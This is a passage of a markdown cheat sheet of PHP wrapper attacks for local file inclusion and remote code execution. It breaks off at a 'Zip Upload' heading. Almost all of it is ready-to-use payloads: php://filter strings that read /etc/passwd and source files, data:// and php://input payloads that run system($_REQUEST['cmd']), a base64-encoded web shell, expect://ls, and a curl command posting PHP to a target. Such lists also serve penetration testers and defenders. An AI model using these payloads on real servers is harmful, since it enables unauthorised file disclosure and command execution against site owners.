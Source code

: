 ## Wrapper

### Wrapper LFI / Path Traversal

Encode in base64:

```url
?page=php://filter/convert.base64-encode/resource=login.php
?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

### Wrapper RCE

#### Data text

```url
?page=data:text/plain,test
?page=data:text/plain,<?php echo system($_REQUEST["cmd"]); ?>
```

#### EXPECT

```url
?page=expect://ls
```

#### INPUT

```url
?page=php://input
```

POST data:

```php
<?php phpinfo(); ?>
<? echo system('uname -a');?>
```

> Example with curl

```php
curl http://R_IP_ADDRESS/?page=php://input -d 'data=<?php phpinfo(); ?>' -X POST 
```

#### DATA

```php
?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
?page=data://text/plain,<?php phpinfo(); ?>
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pg==
    Note: The payload =>     '<?php system($_REQUEST['cmd']); ?>'
```

#### Zip Upload

Create payload:
